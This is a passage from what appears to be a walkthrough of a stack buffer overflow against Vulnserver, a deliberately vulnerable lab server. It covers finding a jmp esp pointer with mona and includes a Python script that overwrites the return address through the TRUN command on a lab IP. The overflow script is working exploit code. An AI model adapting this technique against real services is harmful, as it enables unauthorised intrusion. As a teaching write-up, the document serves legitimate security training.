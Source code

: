 Finding the offset of ```jmp esp``` opcode using mona by the command ```!mona find -s \xff\xe4 -m essfunc.dll```,

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/mona-jmp-esp.png">
</div>

We could see there are 9 pointers available for this exploit which has ```jmp esp``` opcode in it and it also doesn't change its memory address

Eventhough ```ASLR``` is enabled for other parts, here it is disabled which makes the address to remain static & suitable for exploitation

```NX bit``` is also disabled, which allows us to execute shellcode on stack memory

Also, while checking the pointer addresses make sure that the address do not contain bad characters in it, which may cause poor exploitation

Lets craft the script and enter the address of the opcode in ```little endian``` format because the data in stack is placed in little endian format

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ cat jump_esp.py     
import socket, sys
# to overwrite buffer and EBP
payload=b"A"*2003
# to redirect the control to ESP -> JMP ESP
payload+=b"\xaf\x11\x50\x62"
# testing stack values on ESP
payload+=b"C"*4
payload+=b"D"*4
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.141", 9999))
s.send((b"TRUN /.:/"+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ python3 jump_esp.py 
```
